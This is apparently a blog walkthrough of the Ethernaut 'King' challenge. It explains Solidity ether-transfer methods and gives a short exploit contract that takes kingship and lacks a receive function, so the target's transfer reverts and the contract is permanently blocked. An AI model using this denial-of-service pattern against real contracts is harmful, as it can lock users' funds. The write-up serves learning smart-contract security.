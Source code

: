 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 9 - King👑"
datePublished: Tue Mar 21 2023 13:12:54 GMT+0000 (Coordinated Universal Time)
cuid: clfia04e1000909l90w7j67v2
slug: ethernaut-walkthrough-for-noobs-9-king
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1679400326024/122fa548-266f-4793-a4b9-99a8b42704ba.jpeg
tags: ethereum, smart-contracts, 2articles1week, ethernaut, smart-contract-security-audit

---
```


This is a good albeit easy challenge since this begins to teach us regarding the optimal methods to send ether to others in a contract.

> Objective: The challenge below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
> 
> Such a fun game. Your goal is to break it.
> 
> When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

Our goal is to hijack/break the contract, such that nobody in the future can send eth to this contract again and gain kingship.

### Background

There are in total three ways to send ether to other contracts.

1. `transfer`: requires '2300' gas and sends some amount of ether from sender to receiver. The transfer function **reverts** if the sender does not have enough ether or the receiver rejects out ether.
    
    This is of relevance to us.
    
    ```solidity
    receiverAddress.transfer(amount) //this is our point of attack. 
    ```
    
2. `send` : requires '2300' gas and sends some amount of ether from sender to receiver. If the send function fails, it does not revert but rather returns a boolean, i.e. **false**.
    
    ```solidity
    receiverAddress.send(amount)
    ```
    
3. `call`: This is a low-level function of the upper two, it's flexible but comes up with various possible problems like 're-entrancy'. We will look into it in the next challenge.
    
    ```solidity
    (bool sent, bytes memory data) = receiverAddress.call{value: amount}("");
    //sent ---> return true or false, depending on the success of execution of call function. 
    //data --->  stores the data returned
    //"" ---> since it is empty, it will invoke the fallback/receive function. 
    ```
    

> Note: `call` in combination with re-entrancy guard is the recommended method to use to send ether after December 2019.
> 
> [More info](https://solidity-by-example.org/sending-ether/)

### Code of Importance

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
//state variables
  address king; , //stores address of the king
  uint public prize; //stores the prize
  address public owner; //stores address of the owner

  constructor() payable {
    owner = msg.sender;//initializes msg.sender as owner
    king = msg.sender;//initialises king as msg.sender
    prize = msg.value;//initialises prize as msg.value
  }

  receive() external payable { //receive function
    require(msg.value >= prize || msg.sender == owner); //we must send greater than the previous king to become the king, also owner canvbypass this, which is a security flaw but not relevant in the challege. 
    payable(king).transfer(msg.value); //tranfers the amount sent by the sender to previous king
    king = msg.sender; //makes the person who has sent the amount the new king. 
    prize = msg.value; //now the prize has also updated, essentially inflating the prize, everytime someone becomes a king. 
  }

  function _king() public view returns (address) {
    return king; //checks who is the current king. 
  }
}
```

Since we know that `transfer` the function consumes 2300 gas and reverts if it cannot execute the transaction. This is interesting.

So, If hypothetically, we become king and get the `transfer` function to send Ether to a contract that does not receive ether, the function will revert, essentially rendering the contract unusable.

Here is the plan of attack:

1. Create a contract, send ether to the King Contract, and become the king.
    
2. But this new contract will not have any receive function.
    
3. When we submit the instance, the level will try to regain kingship, by sending some prize amount to the contract greater or equivalent to the prize sent by us.
    
4. Now, the `transfer` function will try to send that prize to our contract, but our contract not be able to receive it, since we will have any receive/fallback function.
    
5. The `transfer` function will revert, hence we will remain the king.
    
6. McUUAAAHHHHHH!
    

### Solution

1. Open up Remix IDE.
    
2. ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract Exploit{
    
        constructor(address payable _kingAddress) payable {
            _kingAddress.call{value: msg.value}("");
        }
    //this sends ether to the king contract, during the construction of contract and has no receive function. 
    }
    ```
    
3. In Remix, after compiling, put the level instance in `_kingAddress` in the deploy section.
    
4. Switch to Injected provider, and put the value as 3000000000000000 Wei. This is more than required, but elite mentality we are kings, let's splurge a little here guys.
    
5. Deploy the contract.
    
6. Check if you are king in the console.
    

```javascript
await contract._king()
```

1. Submit Instance
    

King👑